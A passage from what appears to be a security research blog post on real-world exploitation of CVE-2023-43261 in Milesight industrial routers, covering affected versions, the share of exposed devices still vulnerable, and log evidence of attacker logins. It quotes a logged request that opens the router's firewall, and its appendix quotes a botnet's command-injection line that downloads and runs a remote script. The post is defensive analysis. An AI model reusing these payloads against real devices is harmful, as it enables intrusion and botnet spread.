 75.2.0.81 (Final release / Discontinued)\\n\* UR75 5g: No affected versions\\n\* UR76: No affected versions\\n\\nNow that we know the actual affected versions, we can revisit all the firmware versions we collected to determine how many vulnerable systems exist in the wild. The following pie graph spells things out clearly:\\n\\n> Vulnerable Milesight Industrial Cellular Routers in the Wild\\n\\n::pie-chart\\n---\\nlabels:\\n - Not Vulnerable\\n - Vulnerable\\nvalues:\\n - 93.5\\n - 6.5\\n---\\n::\\n\\nOnly ~5% of the internet-facing routers are vulnerable. That's a huge drop from what the CVE description led us to believe. But it’s not all bad. To paraphrase a recently popular tweet, “You won’t catch me crying that I only have a couple of hundred industrial networks to breach.” \\n\\nWhich leads us to the question, is this being exploited in the wild?\\n\\n# Probably Exploited in the Wild?\\n\\nThe answer is “probably.” It’s difficult to precisely say just from the logs. We lack some amount of context. We did not observe obvious mass exploitation. However, there is evidence of small-scale exploitation. Consider the following example.\\n\\nWe observed \[5.61.39.232\](https://www.shodan.io/host/5.61.39.232) attempting to log into six systems on October 2, 2023. The affected systems’ IP addresses geolocate to France, Lithuania, and Norway. They don’t appear to be related, and all use different non-default credentials.\\n\\nOn four systems, the attacker successfully authenticated on the first attempt. One time, the attacker attempted two different passwords. Both passwords (failed and successful) were already present in the \`httpd.log\`. Finally, on the last system, they could not authenticate. The \`httpd.log\` had many login attempts but no successful logins. The attacker attempted all the unique credentials that were already in \`httpd.log\` and then made no more attempts. That pattern could reasonably be CVE-2023-43261.\\n\\nWhat did the attacker do once they logged in? In each case, for this particular attacker, they made no changes. They appeared to rifle through all the settings/status pages (sms inbox, openvpn server, users, ddns config, etc.) and log out. Perhaps recon? Perhaps just someone who is curious? Unclear. Some of the victims did have configured vpn servers, and the attacker did expose the cleartext credentials, which is enough for the attacker to pivot into the ICS network.\\n\\nThere are other examples of potential attacks, but as stated, they are not widespread. Not all attackers are hands-off. There are examples of potential attackers configuring the vpn and even opening up the firewall (this is \[200.73.18.40\](https://viz.greynoise.io/ip/200.73.18.40) going after a system in Canada):\\n\\n\`\`\`json\\n2023-10-04 20:11:24 \[200.73.18.40:admin\]:data: {"id":51,"execute":1,"core":"yruo\_firewall\_security","function":"set","values":\[{"base":"yruo\_firewall\_security","index":1,"value":{"http\_remote":1,"https\_remote":1,"telnet\_remote":1,"ssh\_remote":1,"ftp\_local":1,"ftp\_remote":1,"url":\["http://"\],"keyword":\[""\]}}\]}\\n\`\`\`\\n\\nOf course, it’s difficult to determine exactly what is an attacker and what is a bad admin. Maybe the real administrator \*does\* log in using a VPN in Chile. We suspect not, but anything is possible, which is why we leave this at “probably exploited in the wild” but not at scale.\\n\\n# Conclusion\\n\\nOur interest in CVE-2023-43261 centered around the idea that there were a lot of vulnerable routers that might provide attackers with access to ICS networks. We learned, in reality, CVE-2023-43261 was patched long ago. The CVE description is not only inadequate but also inaccurate, and the vast majority of internet-facing systems are patched. Nonetheless, , we do see some evidence of exploitation in the wild.\\n\\nIf you have a Milesight Industrial Cellular Router, it’s probably wise to assume all the credentials on the system have been compromised and to simply generate new ones, and ensure no interfaces are reachable via the internet.\\n\\n# Appendix\\n\\nSomewhat related to all of the above, but slightly beside the point, is that these routers end up logging a lot of information from unauthenticated users. One request most of the routers ended up logging looks like this:\\n\\n\`\`\`sh\\n2023-10-04 16:59:49 \[103.83.144.161:Not Loggined in\]:data: command=2&ipAddr=&dnsAddr=$(cd+/tmp;wget+http://194.180.48\[.\]100/l.sh;curl+-O+http://194.180.48\[.\]100/l.sh;sh+l.sh)&interface=0&netType=0&scrFilter=&dstFilter=&fi\\n\`\`\`\\n\\nThis appears to be the \[Dark.IoT\](https://www.radware.com/security/threat-advisories-and-attack-reports/dark-iot-botnet/) botnet throwing \[CVE-2021-36380\](https://research.nccgroup.com/2021/07/26/technical-advisory-sunhillo-sureline-unauthenticated-os-command-injection-cve-2021-36380/). We’ve put the MIPS version of the downloaded binary on \[VirusTotal\](https://www.virustotal.com/gui/file/ba0481b0a57c4e94b59b6a3f20ba1c41a8329c88cf01c578ac734f3638ecfa59/detection). The binary has a few additional exploits it uses for spreading.\\n

#### [Source](https://vulncheck.com/blog/real-world-cve-2023-43261)

<br/>
---
